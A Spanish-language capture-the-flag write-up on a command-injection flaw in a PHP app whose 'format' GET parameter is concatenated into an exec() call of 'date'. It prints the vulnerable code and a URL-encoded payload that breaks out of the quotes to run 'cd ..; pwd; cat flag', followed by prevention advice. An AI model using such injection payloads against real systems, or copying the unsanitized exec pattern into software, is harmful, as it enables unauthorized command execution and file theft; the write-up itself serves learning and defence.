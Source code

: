 🔥 Resumen del Reto
Este desafío consistió en explotar una vulnerabilidad de inyección de comandos en una aplicación web que procesaba un parámetro format en la URL. El objetivo era leer el archivo flag.txt inyectando comandos a través del parámetro. ¡Hack the Planet! 🌍💻

🧠 Detalles de la Explotación
💻 URL Vulnerable
bash
/?format=date%20%27+;%20cd%20..%20;%20pwd;%20cat%20flag%27
# Traducción: date '; cd .. ; pwd; cat flag'
🛠️ Análisis Técnico
🔧 Comando Base:

Si revisábamos el archivo /challenge/models/TimeModel.php podiamos obervar que:
```
Model.php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```
La app usaba date con parámetro de formato (que al revisar controllers/TimeController.php) se notaba que el formato se introducía en la URL como resultado de un GET
```
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
Notábamos que se ejecutaba (de lo pasado por GET) en $time un exec que puede ejecutar comandos a nivel de sistema, con lo cual atacamos de la forma antes explicada
```
/?format=date%20%27+;%20cd%20..%20;%20pwd;%20cat%20flag%27
```
Uso normal: ?format=Y-m-d → date "Y-m-d"

🔗 Codificación URL:

%20 = Espacio ( )

%27 = Comilla simple (')

%3B = Punto y coma (;) [no usado aquí pero común] para separar comandos

Si hacíamos un 
```
pwd
```
nos encontrábamos en /www, con lo cual había que redirigirse a /flag para encontrar la flag
💣 Payload Malicioso:

bash
date ''; cd ..; pwd; cat flag'
# 🎯 Rompe la consulta original y añade comandos
⚡ Comandos Ejecutados:

bash
1. date ''        # Comando original neutralizado
2. cd ..          # 📂 Navegación de directorios
3. pwd            # 🗺️ Verificación de ruta (opcional)
4. cat flag       # 🏁 ¡Obtención de la flag!
🕵️ ¿Cómo Funcionó?
La aplicación vulnerable tenía este flujo:

php
<?php
$format = $_GET['format'];
exec("date '$format'");  # ¡Peligro! Input sin sanitizar
?>
🛡️ Medidas de Prevención
Tácticas de Seguridad	Ejemplos
🔐 Validación de Input	filter_var()
🚫 Listas Blancas	Solo permitir Y-m-d, H:i:s
⚔️ Escapado de Caracteres	escapeshellarg()
🛑 Evitar Comandos Shell	Usar DateTime() de PHP
📌 Lecciones Aprendidas
Nunca confíes en el input del usuario 🚨

Los parámetros URL son vectores comunes de ataque 🎯

Siempre sanitiza y valida los datos 🔍

Usa alternativas seguras a system()/exec() 🛡️

¡Happy Hacking! 😈💻 (pero solo en entornos autorizados)

